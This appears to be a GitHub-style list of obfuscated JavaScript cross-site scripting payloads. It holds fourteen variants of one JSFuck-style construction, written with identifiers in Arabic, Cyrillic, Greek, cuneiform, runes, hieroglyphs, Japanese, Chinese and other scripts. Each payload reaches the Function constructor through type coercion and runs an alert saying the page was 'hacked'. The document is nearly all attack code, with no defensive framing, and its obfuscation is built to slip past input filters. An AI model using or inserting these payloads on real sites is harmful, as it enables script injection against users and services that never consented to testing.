 XSS Payload Written In Arabic
```
ا='',ب=!ا+ا,ت=!ب+ا,ث=ا+{},ج=ب[ا++],ح=ب[خ=ا],د=++خ+ا,ذ=ث[خ+د],ب[ذ+=ث[ا]+(ب.ت+ث)[ا]+ت[د]+ج+ح+ب[خ]+ذ+ج+ث[ا]+ح][ذ](ت[ا]+ت[خ]+ب[د]+ح+ج+"(1)")()
```
XSS Payload Written in Russian 🇷🇺
```
а='',б=!а+а,в=!б+а,г=а+{},д=б[а++],е=б[ж=а],з=++ж+а,и=г[ж+з],б[и+=г[а]+(б.в+г)[а]+в[з]+д+е+б[ж]+и+д+г[а]+е][и](в[а]+в[ж]+б[з]+е+д+"('взломано')")()
```
XSS Payload Written In Ancient Greek Language

```
α='',β=!α+α,γ=!β+α,δ=α+{},ε=β[α++],ζ=β[ι=α],η=++ι+α,θ=δ[ι+η],β[θ+=δ[α]+(β.γ+δ)[α]+γ[η]+ε+ζ+β[ι]+θ+ε+δ[α]+ζ][θ](γ[α]+γ[ι]+β[η]+ζ+ε+"('Ĥαcεκd βγ γαssιη')")()
```
XSS Payload Written in Ancient Indus Language 📜
```
𒀱='',𒁍=!𒀱+𒀱,𒂖=!𒁍+𒀱,𒃵=𒀱+{},𒄿=𒁍[𒀱++],𒅗=𒁍[𒀲=𒀱],𒆜=++𒀲+𒀱,𒇻=𒃵[𒀲+𒆜],𒁍[𒇻+=𒃵[𒀱]+(𒁍.𒂖+𒃵)[𒀱]+𒂖[𒆜]+𒄿+𒅗+𒁍[𒀲]+𒇻+𒄿+𒃵[𒀱]+𒅗][𒇻](𒂖[𒀱]+𒂖[𒀲]+𒁍[𒆜]+𒅗+𒄿+"('𒀱𒀲𒀱𒋻𒆜𒀲𒁂𒐫𒉿𒀜𒅔')")()
```

XSS Payload Written in Inuktitut language 📜
```
ᐊ='',ᐃ=!ᐊ+ᐊ,ᐅ=!ᐃ+ᐊ,ᐱ=ᐊ+{},ᑎ=ᐃ[ᐊ++],ᓇ=ᐃ[ᓕ=ᐊ],ᓯ=++ᓕ+ᐊ,ᓂ=ᐱ[ᓕ+ᓯ],ᐃ[ᓂ+=ᐱ[ᐊ]+(ᐃ.ᐅ+ᐱ)[ᐊ]+ᐅ[ᓯ]+ᑎ+ᓇ+ᐃ[ᓕ]+ᓂ+ᑎ+ᐱ[ᐊ]+ᓇ][ᓂ](ᐅ[ᐊ]+ᐅ[ᓕ]+ᐃ[ᓯ]+ᓇ+ᑎ+"('ᐊᐃᓐᓇᓂᐅᑦ ᐱᔭᓯᓕᖅ')")()
```
XSS Payload Written In Glagolitic 📜
```
Ⰰ='',Ⰱ=!Ⰰ+Ⰰ,Ⰲ=!Ⰱ+Ⰰ,Ⰳ=Ⰰ+{},Ⰴ=Ⰱ[Ⰰ++],Ⰵ=Ⰱ[Ⰶ=Ⰰ],Ⰷ=++Ⰶ+Ⰰ,Ⰸ=Ⰳ[Ⰶ+Ⰷ],Ⰱ[Ⰸ+=Ⰳ[Ⰰ]+(Ⰱ.Ⰲ+Ⰳ)[Ⰰ]+Ⰲ[Ⰷ]+Ⰴ+Ⰵ+Ⰱ[Ⰶ]+Ⰸ+Ⰴ+Ⰳ[Ⰰ]+Ⰵ][Ⰸ](Ⰲ[Ⰰ]+Ⰲ[Ⰶ]+Ⰱ[Ⰷ]+Ⰵ+Ⰴ+"('ⰀⰁⰂⰃⰄⰅⰆⰇⰈ')")()
```
XSS Payload Written In Linear B language 📜
```
𐀀='',𐀁=!𐀀+𐀀,𐀂=!𐀁+𐀀,𐀃=𐀀+{},𐀄=𐀁[𐀀++],𐀅=𐀁[𐀆=𐀀],𐀇=++𐀆+𐀀,𐀈=𐀃[𐀆+𐀇],𐀁[𐀈+=𐀃[𐀀]+(𐀁.𐀂+𐀃)[𐀀]+𐀂[𐀇]+𐀄+𐀅+𐀁[𐀆]+𐀈+𐀄+𐀃[𐀀]+𐀅][𐀈](𐀂[𐀀]+𐀂[𐀆]+𐀁[𐀇]+𐀅+𐀄+"('𐀀𐀁𐀂𐀃𐀄 𐀅𐀆𐀇𐀈')")()
```
XSS Payload Written In Runic 📜
```
ᚠ='',ᚢ=!ᚠ+ᚠ,ᚦ=!ᚢ+ᚠ,ᚨ=ᚠ+{},ᚱ=ᚢ[ᚠ++],ᚲ=ᚢ[ᚷ=ᚠ],ᚹ=++ᚷ+ᚠ,ᚺ=ᚨ[ᚷ+ᚹ],ᚢ[ᚺ+=ᚨ[ᚠ]+(ᚢ.ᚦ+ᚨ)[ᚠ]+ᚦ[ᚹ]+ᚱ+ᚲ+ᚢ[ᚷ]+ᚺ+ᚱ+ᚨ[ᚠ]+ᚲ][ᚺ](ᚦ[ᚠ]+ᚦ[ᚷ]+ᚢ[ᚹ]+ᚲ+ᚱ+"('ᛞᚾᛋᚨᛏᛡᚠᛚᛖᚺᛋᛉᛏᚱ')")()
```
XSS Payload Written In Ancient YI language 📜
```
ꆈ='',ꌠ=!ꆈ+ꆈ,ꁱ=!ꌠ+ꆈ,ꁯ=ꆈ+{},ꉬ=ꌠ[ꆈ++],ꃅ=ꌠ[ꋍ=ꆈ],ꇁ=++ꋍ+ꆈ,ꊰ=ꁯ[ꋍ+ꇁ],ꌠ[ꊰ+=ꁯ[ꆈ]+(ꌠ.ꁱ+ꁯ)[ꆈ]+ꁱ[ꇁ]+ꉬ+ꃅ+ꌠ[ꋍ]+ꊰ+ꉬ+ꁯ[ꆈ]+ꃅ][ꊰ](ꁱ[ꆈ]+ꁱ[ꋍ]+ꌠ[ꇁ]+ꃅ+ꉬ+"('ꆈꌠꁱꁯꉬꃅꋍꇁꊰꌠꁱꉬꇁꊰꆈꋍꁯꃅꆈꌠꁱꁯꉬꃅꋍꇁꊰ')")()
```
XSS Payload Written In Hieroglyphics 🇪🇬

```
𓀀='',𓁹=!𓀀+𓀀,𓆣=!𓁹+𓀀,𓉐=𓀀+{},𓂀=𓁹[𓀀++],𓏏=𓁹[𓀂=𓀀],𓎛=++𓀂+𓀀,𓅓=𓉐[𓀂+𓎛],𓁹[𓅓+=𓉐[𓀀]+(𓁹.𓆣+𓉐)[𓀀]+𓆣[𓎛]+𓂀+𓏏+𓁹[𓀂]+𓅓+𓂀+𓉐[𓀀]+𓏏][𓅓](𓆣[𓀀]+𓆣[𓀂]+𓁹[𓎛]+𓏏+𓂀+"('𓀀𓁹𓆣𓉐𓂀𓏏𓎛𓅓')")()
```

XSS Payload Written In Japanese 🇯🇵
```
あ='',い=!あ+あ,う=!い+あ,え=あ+{},お=い[あ++],か=い[き=あ],く=++き+あ,け=え[き+く],い[け+=え[あ]+(い.う+え)[あ]+う[く]+お+か+い[き]+け+お+え[あ]+か][け](う[あ]+う[き]+い[く]+か+お+"('ハッキングされました')")()
```
XSS Payload Written In Chinese 🇨🇳 
```
甲='',乙=!甲+甲,丙=!乙+甲,丁=甲+{},戊=乙[甲++],己=乙[庚=甲],辛=++庚+甲,壬=丁[庚+辛],乙[壬+=丁[甲]+(乙.丙+丁)[甲]+丙[辛]+戊+己+乙[庚]+壬+戊+丁[甲]+己][壬](丙[甲]+丙[庚]+乙[辛]+己+戊+"('被攻擊了')")()
```
Miscellaneous:
```
𝒜='',ℬ=!𝒜+𝒜,𝒞=!ℬ+𝒜,𝒟=𝒜+{},ℰ=ℬ[𝒜++],ℱ=ℬ[𝒢=𝒜],ℋ=++𝒢+𝒜,ℐ=𝒟[𝒢+ℋ],ℬ[ℐ+=𝒟[𝒜]+(ℬ.𝒞+𝒟)[𝒜]+𝒞[ℋ]+ℰ+ℱ+ℬ[𝒢]+ℐ+ℰ+𝒟[𝒜]+ℱ][ℐ](𝒞[𝒜]+𝒞[𝒢]+ℬ[ℋ]+ℱ+ℰ+"('𝓱𝓪𝓬𝓴𝓮𝓭 𝓫𝔂 𝔂𝓪𝓼𝓼𝓲𝓷')")()
```
```
Ａ='',Ｂ=!Ａ+Ａ,Ｃ=!Ｂ+Ａ,Ｄ=Ａ+{},Ｅ=Ｂ[Ａ++],Ｆ=Ｂ[Ｇ=Ａ],Ｈ=++Ｇ+Ａ,Ｉ=Ｄ[Ｇ+Ｈ],Ｂ[Ｉ+=Ｄ[Ａ]+(Ｂ.Ｃ+Ｄ)[Ａ]+Ｃ[Ｈ]+Ｅ+Ｆ+Ｂ[Ｇ]+Ｉ+Ｅ+Ｄ[Ａ]+Ｆ][Ｉ](Ｃ[Ａ]+Ｃ[Ｇ]+Ｂ[Ｈ]+Ｆ+Ｅ+"('H̶̦͇͓͔͙͔̜͕̬̗̦̜̹͎̝̟̥̊̆͊̈̿͆͐a̵̝̤̓̆̅̒̄͂͌̃͌̕͝͝č̷̡̡̡̛̳̱̠̫͓͕͕͔́͒͑̉͑̓̓͘͘͜͜͝k̷̢͈͖̫̐̓̊̊͊͑̒̊̄̎̽̕͘͘͝ę̴͔̻̟͎̟͖̪̐̆̉̓̑̐̇̋̇̍́̉͠ͅd̴͚̱̣͓̠̹̻̺͈̮̣̏̀̈́̒͆͐͋́ ̶̦̥̰̻̬̩̦̒͋͂̀͠B̴̛̤̹̤͍̹̺̖̬̺̝̈́͂̾͌̈́̓̋̍̃̀́̔͘͜͜͜͠ͅỳ̷̬͖͉͕͙̗͉̜̼̣̤̳̣̺͖͇̈́̾̈̀͂̑͋͌̀͠͠ ̵͈̏̑͛̈́̆̇̓̔̂̔̈́͘Y̷̧̼͉͙͙͙͙̳̳̰̮̯̝̔̀̋͊͋̒̐͒́̿̔̈́̈́̊̕͘ä̶̛͖͉̗̠̩̰̻͕̳͍͎́̅̇͗͑̇̊̀͘͝ͅś̷͕̥̹̬̟̑̑͌̀̅̍̈́͋̓̍͘s̷̱̔̐͗̈́̍̏͝͝i̶̺̠̝͉̥̖̙̰͌͌̈͂̽͒̅͜͜͝ͅṅ̴̛̦̙͖̲̫̹͊͑͌̎̒̉̆')")()
```

```
λ='',ψ=!λ+λ,χ=!ψ+λ,Ϟ=λ+{},ϟ=ψ[λ++],Ϡ=ψ[ϡ=λ],Ϣ=++ϡ+λ,ϣ=Ϟ[ϡ+Ϣ],ψ[ϣ+=Ϟ[λ]+(ψ.χ+Ϟ)[λ]+χ[Ϣ]+ϟ+Ϡ+ψ[ϡ]+ϣ+ϟ+Ϟ[λ]+Ϡ][ϣ](χ[λ]+χ[ϡ]+ψ[Ϣ]+Ϡ+ϟ+"('⟊⟒⫯⫸⧉⧬⩣⪬⨀⩘⫛⟆⧆⧈⪻⫷⩚⟟')")()
```